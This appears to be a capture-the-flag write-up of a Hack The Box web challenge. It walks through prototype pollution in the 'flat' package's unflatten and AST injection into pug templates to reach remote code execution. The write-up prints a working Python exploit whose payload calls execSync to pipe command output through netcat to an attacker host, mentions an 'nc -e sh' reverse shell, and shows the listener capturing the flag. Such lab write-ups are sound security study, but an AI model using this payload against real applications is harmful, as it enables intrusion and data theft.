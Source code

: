 Right away we can see there's something weird going on. An object which seems to be the user input gets passed to `unflatten` and, if the input was correct, a template is rendered with a hardcoded value. All of this seems a little bit unnecessary, why call `unflatten` if the input is not expected to have that many nested fields anyway? Also, why is a template rendered with a hardcoded value? Why not just put the string `guest` into the string right away?

After checking the `package.json` file and some googling, we find that the version of the `flat` package beign used (`flat` is the name of the package that provides the `unflatten` function) is `5.0.0`, which is [vulnerable to prototype pollution](https://snyk.io/vuln/SNYK-JS-FLAT-596927). With that in mind we now have to think about how we are going to exploit this. As it turns out, there's [a very nice blog out there](https://blog.p6.is/AST-Injection/#Pug) about how AST injection works, and how we can exploit this in the case of `pug` (which is the template engine being used here).

Now all we need to do is "borrow" the exploit from that post and adjust the payload to meet our needs. This is the code I used:
```
import requests

TARGET_URL = [the one provided by HTB]

res = requests.post(TARGET_URL + '/api/submit', json = {
    "song": {"name": "Not Polluting with the boys"},
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`ls | nc [myServer] [myPort]`)"
    }
})
```

Now you may notice that I didn't use `nc -e sh` or something like that, that's because I wasn't sure if the `nc` version on the remote host would allow that, in any case I could just adjust the payload to execute any command I wanted. Another thing to keep in mind is that we need to provide a valid song name so that the `pug` part will actually get executed. After listing the files in the directory, I could see that the flag file was named `flage1tqb` ('cause why not?). All I had to do next is to actually retrieve tha flag.

```
$ nc -lvp [myPort]
Connection from [remoteInstance]
flage1tqb
index.js
node_modules
package.json
routes
static
views
yarn.lock
$ # Modified the payload to include cat flage1tqb
$ nc -lvp [myPort]
Connection from [remoteInstance]
CHTB{p0llute_with_styl3}
```
